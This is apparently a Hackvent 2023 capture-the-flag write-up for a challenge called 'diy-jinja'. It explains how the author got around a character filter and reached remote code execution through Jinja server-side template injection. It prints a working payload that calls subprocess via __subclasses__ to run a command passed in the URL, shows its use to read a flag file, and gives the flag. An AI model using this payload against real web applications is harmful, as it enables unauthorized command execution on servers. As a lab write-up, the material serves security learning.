

# [HV23.10] diy-jinja

This one I solved differently from my current solution during Hackvent, but well, it also got nuked during my git-typo and I couldn't replicate my payload afterwards.

The server is  giving us the option to upload our own jinja template files, but only lowercase characters are allowed between the `{{}}` of jinja. So I looked in different places and noticed that our user input for form field names and description is reflected on the form submission page, the only restriction being that we can't use `"` or `'` in our payload, we can still get RCE by using the following payload.

```py
{{a.__class__.__base__.__subclasses__()[452](request.args.cmd, shell=True, stdout=-1).communicate()[0].strip()}}
```

Now we just have to go to our newly created form at `/form/7656fa0b-4765-48df-9d8e-b8cab60f023a` and add `?cmd=cat /app/flag.txt` to it to get the flag.



Flag: `HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}`
